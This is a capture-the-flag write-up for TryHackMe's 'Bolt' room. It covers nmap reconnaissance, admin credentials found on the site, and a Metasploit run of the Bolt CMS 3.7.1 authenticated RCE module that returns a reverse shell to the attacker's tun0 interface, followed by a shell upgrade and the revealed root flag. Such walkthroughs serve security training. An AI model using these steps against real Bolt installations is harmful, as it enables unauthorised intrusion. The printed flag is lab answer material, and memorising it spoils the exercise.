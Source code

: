 # Bolt

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Room Info

> **Name**
>
> 🔗 [Bolt](https://tryhackme.com/room/bolt)
>
> ![](.gitbook/assets/bolt.png)
>
> **Description**
>
> 📝 *This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution*
>
> **Target IP**
>
> 🎯 `10.10.218.91`

## Recon

```bash
su
echo "10.10.218.91 bolt.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/bolt
cd thm/bolt
nmap bolt.thm
    22/tcp   open  ssh
    80/tcp   open  http
    8000/tcp open  http-alt

nmap -sV -sC -Pn -oA bolt bolt.thm
```

```bash
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f385ec54f201b19440de42e821972080 (RSA)
|   256 77c7c1ae314121e4930e9add0b29e1ff (ECDSA)
|_  256 070543469db23ef04d6967e491d3d37f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 48ed6c
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 1f990b
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
```

Enumerate the Bolt web application.

![](.gitbook/assets/image-20230515194324231.png)

> 📌 `bolt`:`boltadmin123`

Find the Bolt CMS login page

![](.gitbook/assets/image-20230515194049520.png)

Navigate to

- `http://bolt.thm:8000/bolt/login`
- and use the `bolt` credentials

Once logged in, the Bolt version is at the bottom of the page.

> 📌 `Bolt 3.7.1`

## Exploitation

```bash
searchsploit bolt 3.7 -w

# EDB-ID is 48296
```

![](.gitbook/assets/image-20230515194653700.png)

Use Metasploit to exploit the [**`Authenticated Remote Code Execution`**](https://www.exploit-db.com/exploits/48296) Bolt vulnerability

```bash
msfconsole -q

setg RHOSTS bolt.thm
setg RHOST bolt.thm
search bolt
use exploit/unix/webapp/bolt_authenticated_rce
set LHOST tun0
set USERNAME bolt
set PASSWORD boltadmin123
run
```

![root shell](.gitbook/assets/image-20230515195717170.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

find / -type f -name 'flag.txt' 2>/dev/null
cat /root/flag.txt
```





<details>
<summary>Reveal Flag - root: 🚩</summary>



`THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`

![](.gitbook/assets/image-20230515195919144.png)

</details>



------

